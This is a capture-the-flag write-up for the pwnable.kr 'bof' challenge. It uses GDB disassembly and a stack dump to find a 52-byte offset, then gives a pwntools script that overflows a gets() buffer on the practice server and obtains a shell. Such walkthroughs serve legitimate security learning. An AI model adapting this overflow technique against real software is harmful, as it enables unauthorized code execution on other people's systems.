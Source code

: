 # bof

1. Download the files:

    ```bash
    wget http://pwnable.kr/bin/bof
    wget http://pwnable.kr/bin/bof.c
    ```

2. `cat bof.c` : observing the source code tells us that the program accepts a string input, using which we have to overflow the buffer to alter the value of key `0xdeadbeef`.
3. Using **GDB**:

    ```bash
    gdb ./bof
    ```

    Breakpoint at main and disassemble func():

    ```gdb
    Reading symbols from ./bof...
    (No debugging symbols found in ./bof)
    (gdb) break main 
    Breakpoint 1 at 0x68d
    (gdb) r
    Starting program: /home/harshit/Downloads/bof 
    [Thread debugging using libthread_db enabled]
    Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

    Breakpoint 1, 0x5655568d in main ()
    (gdb) disas func
    Dump of assembler code for function func:
    0x5655562c <+0>:    push   %ebp
    0x5655562d <+1>:    mov    %esp,%ebp
    0x5655562f <+3>:    sub    $0x48,%esp
    0x56555632 <+6>:    mov    %gs:0x14,%eax
    0x56555638 <+12>:   mov    %eax,-0xc(%ebp)
    0x5655563b <+15>:   xor    %eax,%eax
    0x5655563d <+17>:   movl   $0x5655578c,(%esp)
    0x56555644 <+24>:   call   0xf7de9140 <puts>
    0x56555649 <+29>:   lea    -0x2c(%ebp),%eax
    0x5655564c <+32>:   mov    %eax,(%esp)
    0x5655564f <+35>:   call   0xf7de8660 <gets>
    0x56555654 <+40>:   cmpl   $0xcafebabe,0x8(%ebp)
    0x5655565b <+47>:   jne    0x5655566b <func+63>
    0x5655565d <+49>:   movl   $0x5655579b,(%esp)
    0x56555664 <+56>:   call   0xf7dc1430 <system>
    0x56555669 <+61>:   jmp    0x56555677 <func+75>
    .
    .
    .
    .
    ```

4. We see `cmpl` instruction, comparing the key with `0xcafebabe` at addr `0x56555654`. Break there and observe the stack memory:

    ```gdb
        (gdb) break *0x56555654
    Breakpoint 2 at 0x56555654
    (gdb) c
    Continuing.
    overflow me : 
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

    Breakpoint 2, 0x56555654 in func ()
    (gdb) x/100x $sp
    0xffffcf60: 0xffffcf7c  0xffffd21b  0x00000002  0x0000001c
    0xffffcf70: 0xf7ffcfe8  0x00000018  0x00000000  0x61616161
    0xffffcf80: 0x61616161  0x61616161  0x61616161  0x61616161
    0xffffcf90: 0x61616161  0x61616161  0x61616161  0x61616161
    0xffffcfa0: 0x61616161  0xf7d80061  0xffffcfc8  0x5655569f
    0xffffcfb0: 0xdeadbeef  0x00000000  0x00000000  0x00000000
    0xffffcfc0: 0x00000000  0x00000000  0x00000000  0xf7d95cb9
    0xffffcfd0: 0x00000001  0xffffd084  0xffffd08c  0xffffcff0
    0xffffcfe0: 0xf7fa1e34  0x5655568a  0x00000001  0xffffd084
    0xffffcff0: 0xf7fa1e34  0x565556b0  0xf7ffcb60  0x00000000

    ```

    Wee see `0xdeadbeef` at `0xffffcfb0` and start of our input at the last column of `0xffffcf70`. So we have to overflow `(1+3*4)*4 = 52` bytes before writing `0xcafebabe`

5. Using pwntools:

    ```python
    from pwn import *

    payload = b'a' * 52 + b'\xbe\xba\xfe\xca'
    shell = remote('pwnable.kr',9000)
    shell.send(payload)
    shell.interactive()
    ```

    This spawns a shell (see `system("/bin/sh")` in `bof.c`)

    ```shell
    [+] Opening connection to pwnable.kr on port 9000: Done
    [*] Switching to interactive mode
    $ ls
    $ ls
    bof
    bof.c
    flag
    log
    super.pl
    $ cat flag
    ```
